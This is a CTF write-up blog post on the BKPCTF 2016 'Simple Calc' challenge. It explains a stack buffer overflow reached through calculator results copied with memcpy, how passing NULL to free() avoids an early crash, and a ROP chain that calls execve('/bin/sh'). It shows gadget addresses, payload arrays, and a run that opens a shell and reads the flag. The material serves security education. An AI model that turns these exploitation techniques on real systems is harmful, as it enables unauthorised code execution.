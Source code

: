 ```yaml
---
layout: post
title:  "BKPCTF 2016 - Simple Calc"
date:   2016-03-07 22:51:04 +1100
categories:
author: hugsy
---
```


### Info ###

The vulnerable file is
[here](http://s000.tinyupload.com/index.php?file_id=89756110683962777183).

{% highlight bash %}
~/cur/simple_calc $ file b28b103ea5f1171553554f0127696a18c6d2dcf7
b28b103ea5f1171553554f0127696a18c6d2dcf7: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=3ca876069b2b8dc3f412c6205592a1d7523ba9ea, not stripped
~/cur/simple_calc $ checksec.sh --file b28b103ea5f1171553554f0127696a18c6d2dcf7                                                                                              [22:30]
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   b28b103ea5f1171553554f0127696a18c6d2dcf7
{% endhighlight %}

### Vulnerability ###

`simple_calc` offered a binary that expects us to make some calculations.
It will ask for a number of calculations (say *N*) to perform and will
`malloc()` *N*x4 bytes in the heap. If we decompile with
[IDA](https://www.hex-rays.com/products/ida/), it'll look something like this:

<!--more-->

![](https://i.imgur.com/aFaqYf6.png)

Then a loop of *N* iterations will commence,
each iteration offering to perform one of the possible arithmetic operations,
ADD/SUB/MUL/DIV, or exit. Those operations perform pretty much what you expect of them,
which take in 2 DWORD operands, and apply the function. What is worth noticing is that
both operands and result are stored in the `.bss` (therefore at predictable
addresses).

```
[...]
.bss:00000000006C4A84 add_operator_2  dd ?                    ; DATA XREF: adds+40
.bss:00000000006C4A84                                         ; adds+69 ...
.bss:00000000006C4A88 add_result      dd ?                    ; DATA XREF: adds+96
.bss:00000000006C4A88                                         ; adds+9C ...
.bss:00000000006C4A8C                 align 10h
.bss:00000000006C4A90                 public div_operator_1
.bss:00000000006C4A90 div_operator_1  dd ?                    ; DATA XREF: divs+13
.bss:00000000006C4A90                                         ; divs+5E ...
.bss:00000000006C4A94 div_operator_2  dd ?                    ; DATA XREF: divs+40
.bss:00000000006C4A94                                         ; divs+69 ...
.bss:00000000006C4A98 div_result      dd ?                    ; DATA XREF: divs+9B
[...]
```

By exiting, `simple_calc` performs a `memcpy()` of the malloc-ed buffer (whose
length is controlled by us) into a stack buffer (of length 0x28 bytes) located
at $rbp+40h.
![](https://i.imgur.com/0wcLH24.png)

It is then easy to spot the trivial stack buffer overflow.


### Exploitation ###

When an operation is finished, the resulting DWORD is stored inside the malloc-ed
buffer at the offset corresponding of the main loop iteration.
So the game here is to play with those (basic) arithmetic operations to
write arbitrary data in the malloc-ed buffer: for example, if we want to write
0x10001000 | 0x20002000 in our malloc-ed buffer, we would create 2 operations,
then perform:

   1. an ADD with op1=0x10000000 and op2=0x00001000
   1. an ADD with op1=0x20000000 and op2=0x00002000
   1. and so on

By calling successively the same arithmetic operation, say `ADD` (or any other),
we have a predictable way to populate the malloc-ed buffer.

To corrupt the memory we must fill the stack buffer entirely (40 bytes), so make
at least 10 operations. The stack buffer is followed (in the memory layout) by
variables, so we add 24 bytes of junk (3 QWORD), another QWORD for
overwriting the SFP, and a last to overwrite RIP.

{% highlight python %}
def pwn(s):
    addrs = [0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x42424242, 0x43434343, # overwritten vars
             0x44444444, 0x44444444, # overwritten vars
             0x44444444, 0x44444444, # overwritten vars
             0x44444444, 0x44444444, # sfp
             0x45454545, 0x45454545, # rip
             ]
{% endhighlight %}

We execute and a SIGSEGV was well caught (as seen with
[`gef`](https://github.com/hugsy/gef)) :
![](https://i.imgur.com/rn4XSOR.png)

However, the faulty instruction is in the `free()` following the `memcpy()` and
yet not in the return from the main function.
`free()` is trying to remove the chunk pointed by the value stored in $rdi (here
0x4444444444444444). However, a quick look in the man page (`man 3 free`) and we
find our solution:

> The free() function frees the memory space pointed to by ptr,[...] If ptr is
> NULL, no operation is performed.

So let's rebuild our stack accordingly:

{% highlight python %}
def pwn(s):
    addrs = [0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x42424242, 0x43434343, # overwritten vars
             0x00000000, 0x00000000, # for free(NULL)
             0x44444444, 0x44444444, # overwritten vars
             0x44444444, 0x44444444, # sfp
             0x45454545, 0x45454545, # rip
             ]
{% endhighlight %}

We try again, and we hit the SIGSEGV in the RET. Perfect, time to bypass NX.

```
Program received signal SIGSEGV, Segmentation fault.
[...]
0x40157c	 <main+505>  mov    edi,eax
0x40157e	 <main+507>  call   0x4156d0 <free>
0x401583	 <main+512>  mov    eax,0x0
0x401588	 <main+517>  leave
0x401589	 <main+518>  ret 		 ← $pc
0x40158a	 nop    WORD PTR [rax+rax*1+0x0]
0x401590	 <__libc_start_main>  push   r14
```

We want to have a shell (what else, right?) so we need all the gadgets to
syscall execve('/bin/sh', 0, 0).

Bypassing NX is not that hard, all we need are the right gadgets. We choose a
writable address, and write '/bin//sh' (we arbitrarily chose 0x6c3110 in the
`.bss`). Using [`ropgadget`](https://github.com/JonathanSalwan/ROPgadget) makes
it easier than ever:

```
0x401c87:                  # pop rsi ; ret
0x6c3110:                  # our writable address
0x44db34:                  # pop rax ; ret
0x6e69622f, 0x68732f2f,    # /bin//sh
0x470f11                   # mov qword ptr [rsi], rax ; ret
0x447233:                  # mov    rax,rsi; ret
0x479295                   # mov edi, eax ; dec dword ptr [rax - 0x77] ; ret
```

At this stage, we have `/bin//sh` written @0x6c3110 and this address inside the
EDI register. Then we can use the gadget `0x437aa9: pop rdx ; pop rsi ; ret` to populate RSI and
RDX with 0. Because it embeds a libc, the binary is full of `syscall`
instructions, we'll use the one at 0x435675.

We now have our full chain:

{% highlight python %}
def pwn(s):
    addrs = [0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x41414141, 0x41414141, 0x41414141, 0x41414141, 0x41414141,
             0x42424242, 0x43434343, # overwritten vars

             0x00000000, 0x00000000, # for free(NULL)
             0x44444444, 0x44444444, # last overwritten vars
             0x44444444, 0x44444444, # sfp

             0x401c87, 0, # pop rsi ; ret
             0x6c3110,  0x0, # addr rw

             0x44db34, 0, # pop rax ; ret
             0x6e69622f, 0x68732f2f,  #  /bin//sh

             0x470f11, 0, # mov qword ptr [rsi], rax ; ret

             0x447233, 0, # mov    rax,rsi; ret
             0x479295, 0, # mov edi, eax ; dec dword ptr [rax - 0x77] ; ret

             0x44db34, 0x0, # pop rax
             0x3b, 0, # syscall_execve

             0x437aa9, 0x0, # pop rdx ; pop rsi ; ret
             0, 0,
             0, 0,

             0x435675, 0, # syscall()
    ]
{% endhighlight %}

Run and pwn !

```bash
/cur/simple_calc $ ./simple_calc.py                                                                                                                                         [23:36]
[+] Connected to localhost:5400
[+] Running 45 calculations
[+] Iter 1: got result 0x41414141
[+] Iter 2: got result 0x41414141
[+] Iter 3: got result 0x41414141
[+] Iter 4: got result 0x41414141
[+] Iter 5: got result 0x41414141
[+] Iter 6: got result 0x41414141
[+] Iter 7: got result 0x41414141
[...]
[+] Triggering exploit
[+] Got it, interacting (Ctrl-C to break)
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"  '
ls
key
simple_calc
cat key
BKPCTF{what_is_2015_minus_7547}
```

The full exploit is [here](https://gist.github.com/hugsy/88e7137466505e0402ca).
